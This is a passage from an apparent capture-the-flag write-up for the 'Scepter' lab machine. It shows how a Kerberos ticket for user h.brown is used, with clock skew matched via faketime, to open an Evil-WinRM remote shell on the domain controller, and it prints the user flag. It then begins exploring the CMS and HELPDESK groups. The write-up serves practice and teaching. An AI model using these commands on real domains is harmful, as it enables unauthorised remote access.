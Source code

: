 ```bash
```

we can export it and grab winrm

```bash
➜  scepter export KRB5CCNAME=h.brown.ccache                                               
➜  scepter faketime "$(ntpdate -q scepter.htb | cut -d ' ' -f 1,2)" evil-winrm -r scepter.htb -i DC01.scepter.htb                          
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\h.brown\Desktop> type user.txt
f042b0cdc78f27f8c90247e4e2536dcd
```

## Root

Okey lets check what h.brown can do or somethings if different.

![alt text](../assets/images/scepter9.png)

**CMS** and **HELPDESK** seems like interesting right? Lets start with analyze CMS
